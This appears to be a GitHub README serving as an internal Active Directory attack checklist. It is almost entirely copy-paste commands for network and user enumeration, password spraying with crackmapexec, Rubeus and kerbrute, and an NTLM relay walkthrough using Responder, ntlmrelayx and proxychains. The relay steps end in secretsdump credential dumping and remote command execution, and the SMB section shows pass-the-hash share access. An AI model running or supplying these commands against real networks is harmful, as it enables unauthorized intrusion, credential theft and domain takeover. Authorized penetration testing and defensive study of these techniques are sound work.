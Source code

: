 # AD-Internal-Checklist | Active Direcotry All Cheatsheets and resources. 

## Enumerate the network. 
Enumerating the network is a very important step to discover domain controllers, servers, printers, workstations. 

The first tsep is to do is to get the IP range you are connected to. `ifconfig` / `ipconfig`. Collect as much information as possible about an AD envirement.  The goal is to get valid credentials or atleast a list o valid usernames. 

without creds 

- Nmap: 

```bash
nmap -sP -p <ip>/range # ping scan
```

```bash
nmap -PN -sV -f --open -f <ip>/range # quick scan
```

```bash
nmap -PN -sC -sV -oA <output> <ip> # classic scan
```
Options to bypass firewall `-f / -sS / -PN`

- Crackmapexec (favorit)
 This will enumerate smb null session
 ```bash
 crackmapexec smb 10.10.10.1/24 -u '' -p ''
 ```
 
 This will enumerate anonymouss access to share. 

 ```bash
 crackmapexec smb <ip> -u 'a' -p '' --shares
 ```
- OSINT: you can use open source intelligence to get a list of valid usernames depending on various [active directory naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/)

- LDAP: `ldapsearch -LLL -x -H ldap://test.local -b'' -s base '(objectclass=\*)'`
- LDAP: `nmap -n -sV --script "ldap* and not brute" -p 389 <dc-ip>` 
- Enum4Linux: `enum4linux -U <dc-ip> | grep 'user:'`
- SMB: Enumerate anonymous and null session: 
```bash
smbclient -U '%' -L //<dc-ip> && smbclient -U 'guest%' -L //<dc-ip>
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```
- SMB: `smbclient -L 172.16.1.0`. To gain access a share: `smbclient  \\\\172.16.1.0\\$share`
- Once you craft a list of possible usernames, you can perform nmap kerberoas bruteforce to get valid ones:  
```bash
kerbrute userenum -d test.local usernames.txt
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip> 
```
 * using crackmapexec: 
  ```bash
  crackmapexec smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
  ```
* Using Rebeus (Windows tool)
  ```bash
  Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
  ```
* using [kerbrute](https://github.com/ropnop/kerbrute): 
  ```bash
  kerbrute passwordspray -d test.local domain_users.txt password123
  ```
TIP: Crackmapexec is prefered

## NTLM Relay attack 

1 - First, makesure you modify on responder file `/etc/responder/Responder.conf` as below:
```bash
SMB = Off  // Off instead of On
HTTP = Off  // Off instead of On
```
2 - Create a list of hosts within the environment with SMB signing disabled using crackmapexec

```bash
crackmapexec smb IP/RANGE --gen-relay-list targets.txt
wc -l targets.txt #check how many targets you've gathered. 
```
Fire up responeder to capture hashes

 ```bash
responder -I eth1 -d -w
```

3 - fire up `ntlmrelayx` script to relay the obtained hashes

 ```bash
impacket-ntlmrelayx -tf targets.txt -smb2support -debug -socks
```

4 - Check ntlmrelayx if any session was captured.
```bash
ntlmrelayx> socks
Protocol  Target         Username         AdminStatus  Port 
--------  -------- 	 --------         --------     ------
SMB       192.168.1.9    DOM/alice_admin  TRUE         445
SMB       192.168.1.16   DOM/alice_admin  TRUE         445
SMB       192.168.1.17   DOM/alice_admin  TRUE         445
SMB       192.168.1.13   DOM/alice_admin  TRUE         445
SMB       192.168.1.31   DOM/alice_admin  TRUE         445
```
5 - Use proxychains to interact with ntlmrelayx socks fonctionality (1080 is the default port within ntlmrelayx)

```bash
nano /etc/proxychains.conf
[ProxyList]
socks4  127.0.0.1 1080
```

6 - You can basically do whatever you want to do with those sessions

  ```bash
proxychains impacket-smbclient -no-pass DOM/alice_admin@192.168.1.41
proxychains impacket-secretsdump DOM/alice_admin@192.168.1.4
impacket-secretsdump DOM/bob_admin@192.168.1.8
crackmapexec smb 192.168.1.10 -u dom_admin -p dom_admin_password -x whoami
```

## With credentials 

Use the credentials in you favor to enumerate usefull information or gain access to computers maybe get a Domain Admin.

- Get other users. `python3 GetADUsers.py -all test.local/john:password123 -dc-ip 10.10.10.1`
- Get almost all information about an AD envirement:

 ```bash
 crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
 ```

## SMB SHARES

```bash
with credentials : smbclient -L 172.16.1.0  -U=user%password

with credentials access : smbclient \\\\172.16.1.0\\$share  -U=user%password

with ntlm access : smbclient \\\\172.16.1.0\\$share -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local

mount smb share : sudo mkdir /tmp/data; sudo mount -t cifs -o 'user=USER,password=PASSWORD' //10.0.2.80/shareapp /tmp/data
```

- Find computers you can login to. 
